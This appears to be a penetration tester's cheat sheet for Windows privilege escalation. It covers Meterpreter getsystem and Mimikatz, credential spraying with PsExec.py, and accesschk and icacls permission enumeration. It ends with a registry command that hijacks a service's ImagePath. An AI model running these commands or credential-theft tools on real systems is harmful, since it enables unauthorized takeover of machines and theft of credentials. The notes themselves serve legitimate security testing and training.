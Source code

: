 # Meterpreter

``` getsystem ```

``` load module mimikatz ```

# PrivescCheck

|PrivescCheck||
|--- |--- |
|https://github.com/itm4n/PrivescCheck||
|Written in PowerShell||

# WinPEASS

|WinPEASS||
|--- |--- |
|https://github.com/carlospolop/PEASS-ng||
|Comes in both compiled (exe) and batch file||
|GitHub repo also contains LinPEASS||

|Commands|Notes|
|--- |--- |
|winpeas.exe quiet servicesinfo|Gets information about running/installed services|
|||
|||

# MimiKatz

|MimiKatz||
|--- |--- |
|Has a Meterpreter Module||
|Compiled Binary and dll libraries||

# PsExec.py

|PsExec.py||
|https://github.com/SecureAuthCorp/impacket||
|Used to get PowerShell shell on remote windows system(s) (Can be used to spray credentials)||

# Weak Permissions
## Note: Included in SysInternals tools

``` accesschk.exe ```

## Check user access to services

``` accesschk.exe -uwcqv Users *```

``` accesschk.exe -uwcqv "Authenticated Users" * ```

``` accesschk.exe -uwcqv "Everyone" * ```

## Check folder permissions for users (per drive)

``` accesschk.exe -uwdqs Users c:\ ```

``` accesschk.exe -uwdqs "Authenticated Users" c:\ ```

``` accesschk.exe -uwdqs "Everyone" c:\ ```

## Check File Permissions for users (per drive)

``` accesschk.exe -uwqs Users c:\*.* ```

``` accesschk.exe -uwqs "Authenticated Users" c:\*.* ```

``` accesschk.exe -uwqs "Everyone" c:\*.* ```


|ICACLS||
|--- |--- |
|Command | Notes| 
|--- |--- |
|``` icacls $PATHTOEXE 2>nul ```| Can be piped to findstr to filter out results|





|ICACLS Permission Legend||
|--- |--- |
|(F)|Full Access|
|(M)|Modify Access|
|(RX)|Read and Execute Access|
|(R)|Read-Only Access|
|(W)|Write-Only Access|


## LOLBAS

|LOLBAS||
|--- |--- |
|https://lolbas-project.github.io/||
|Living Off The Land Binaries, Scripts, and Libraries||
|Web Interface||


## Check global objects editable by Everyone

``` accesschk -wuo everyone \basednamedobjects ```

## Check Registry Settings

### Note: Service Registry Keys are stored in: HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services

### PowerShell

``` Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\Service | fl ```

#### Add Registry Key

``` reg add "HKLM\SYSTEM\CurrentControlSet\services\service" /v ImagePath /t REG_EXPAND_SZ /d $PATHTOEXECUTABLE /f ```

